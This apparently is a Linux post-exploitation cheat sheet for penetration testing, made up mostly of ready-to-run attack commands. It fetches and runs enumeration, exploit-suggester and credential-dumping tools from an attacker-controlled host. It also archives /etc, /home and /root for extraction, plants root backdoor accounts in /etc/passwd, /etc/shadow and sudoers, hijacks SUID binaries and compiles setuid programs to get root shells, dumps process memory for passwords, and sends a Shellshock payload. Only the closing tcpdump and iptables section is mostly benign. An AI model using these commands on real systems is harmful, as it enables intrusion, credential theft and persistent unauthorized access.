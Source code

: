 
# Linux

## Enumeration Scripts
```
wget http://$source_ip/tools_linux/lse.sh; bash lse.sh -l 2 | tee lse.sh.out
```
```
wget http://$source_ip/tools_linux/LinEnum.sh; bash LinEnum.sh | tee LinEnum.sh.out
```
```
wget http://$source_ip/tools_linux/linpeas.sh; bash linpeas.sh | tee linpeas.sh.out
```
```
wget http://$source_ip/tools_linux/linuxprivchecker.py; python linuxprivchecker.py | tee linuxprivchecker.py.out
```
```
wget http://$source_ip/tools_linux/linux-local-enum.sh; bash linux-local-enum.sh | tee linux-local-enum.sh.out
```
```
wget http://$source_ip/tools_linux/unix-privesc-check.sh; bash unix-privesc-check.sh | tee unix-privesc-check.sh.out
```
```
wget http://$source_ip/tools_linux/linux_security_test.sh; bash linux_security_test.sh | tee linux_security_test.sh.out
```
```
wget http://$source_ip/tools_linux/checksec; bash checksec --kernel | tee checksec.kernel.out
```
```
wget http://$source_ip/tools_linux/checksec; bash checksec --fortify-proc=1 | tee checksec.proc.out
```

### General Enumeration 

Writable files:
```
find / -writable -type d 2>/dev/null
```

SUID:
```
find / -perm -u=s -type f 2>/dev/null
```

SGID:
```
find / -perm -g=s -type f 2>/dev/null
```

Mounted and unmounted volumes:
```
cat /etc/fstab
mount
lsblk
```

Device drivers and kernel modules:
```
lsmod
```
```
/sbin/modinfo <module_name>
```

## Process monitoring
```
wget http://$source_ip/tools_linux/pspy32; chmod +x pspy32; ./pspy32
```
```
wget http://$source_ip/tools_linux/pspy64; chmod +x pspy64; ./pspy64
```

## Exploit Suggesters
```
wget http://$source_ip/tools_linux/linux-exploit-suggester-2.pl; perl linux-exploit-suggester-2.pl | tee linux-exploit-suggester-2.pl.out
```
```
wget http://$source_ip/tools_linux/linux-exploit-suggester.sh; bash linux-exploit-suggester.sh | tee linux-exploit-suggester.sh.out
```
```
wget http://$source_ip/tools_linux/linuxprivchecker.py; python linuxprivchecker.py | tee linuxprivchecker.py.out
```
```
wget http://$source_ip/tools_linux/linux_kernel_exploiter.pl; perl linux_kernel_exploiter.pl | tee linux_kernel_exploiter.pl.out
```
```
wget http://$source_ip/tools_linux/Linux_Exploit_Suggester.pl; perl Linux_Exploit_Suggester.pl | tee Linux_Exploit_Suggester.pl.out
```


## Data Extraction
```
ifconfig -a; netstat -antp; arp -e; route -v; route -vn
```
```
tar -zcf linux_files.tar.gz /etc/* /home/* /root/* /var/www/* /var/log/*
```
Recursive search:
```
grep -rnwl '/path/to/somewhere/' -e "pattern"
```

## Password Dumping
```
wget http://$source_ip/tools_linux/mimipenguin_2.0/mimipenguin.py; python mimipenguin.py | tee mimipenguin.py.out
```
```
wget http://$source_ip/tools_linux/mimipenguin_2.0/mimipenguin.sh; bash mimipenguin.sh | tee mimipenguin.sh.out
```
```
wget http://$source_ip/tools_linux/memory-dump.sh
```

## Persistance
```
sudo echo "amxuser ALL=(ALL) ALL" >> /etc/sudoers
```
```
/usr/sbin/useradd -p 'openssl passwd -1 amxpass' amxuser 
```
```
/usr/sbin/useradd -p 'openssl passwd -1 -salt AbCD4536 amxpass' amxuser 
```
```
echo amxpass | passwd amxuser --stdin
```
```
echo 'amxuser::0:0::/root:/bin/bash' >>/etc/passwd
su - dummy
```
```
echo 'amxuser:x:0:0:root:/root:/bin/bash' >>/etc/passwd
echo 'amxuser:$1$ozUCi1Me$rBG3vK5.jZUScy39PSVtM1:14798:0:99999:7:::' >>/etc/shadow
```

## Exploit 

If SUID binary execute another command, replace it with a function:
```
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
export -f /usr/sbin/service
```

Dump memory:
```
gdb -p <FTP_PROCESS_PID>
(gdb) info proc mappings
(gdb) q
(gdb) dump memory /tmp/mem_ftp <START_HEAD> <END_HEAD>
(gdb) q
strings /tmp/mem_ftp #User and password
```

```
echo "int main(void){\nsetgid(0);\nsetuid(0);\nsystem(\"/bin/sh\");\n}" >privsc.c; gcc privsc.c -o privsc
```

```
echo -e '#include <stdio.h>\n#include <sys/types.h>\n#include <unistd.h>\n\nint main(void){\n\tsetuid(0);\n\tsetgid(0);\n\tsystem("/bin/bash");\n}' > setuid.c
sudo chown root:root /tmp/setuid
sudo chmod 4755 /tmp/setuid
```

Shellshock
```
curl -H 'User-Agent: () { :; }; echo "CVE-2014-6271 vulnerable" bash -c id' http://$target/cgi-bin/admin.cgi
```
## Network

Grep IPs
```
grep -oE "[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}"
```

Using -X to output raw traffic
```
tcpdump -nX -r password_cracking_filtered.pcap | grep -A10 GET
```

Extract IP addresses from pcap
```
tcpdump -n -r dump.pcap | awk -F" " '{print $3}' | sort -u | head`
```

Filter for http requests
```
tcpdump -A -s 0 'tcp port 10443 and (((ip[2:2] - ((ip[0]&0xf)<<2)) - ((tcp[12]&0xf>>2)) != 0)' -i eth0
```

Filter destination host
```
tcpdump -n dst host $target -r password_cracking_filtered.pcap
```

Filter for source host
```
tcpdump -n src host $target -r password_cracking_filter
```

Filter port
```
tcpdump -n port 81 -r password_cracking_filtered.pcap
```

Extract only ACK and PUSH packets
```
tcpdump -A -n 'tcp[13] = 24' -r password_cracking_filtered.pcap
```

Create traffic counter for specific net
```
iptables -Z
iptables -N subnet_scan
iptables -A INPUT -d 10.11.1.0/24 -j subnet_scan
iptables -vL INPUT
```

```
iptables -Z
iptables -vn -L
```

Packet and byte counter using iptables
```
#!/bin/bash

# Reset counters and iptables rules
iptables -Z && iptables -F

# Measure incoming traffic from lab machine
iptables -I INPUT 1 -s 192.168.1.23 -j ACCEPT

# Measure outgoing traffic to lab machine
iptables -I OUTPUT 1 -d 192.168.1.23 -j ACCEPT
```
```
watch -n 1 iptables -nvL
```
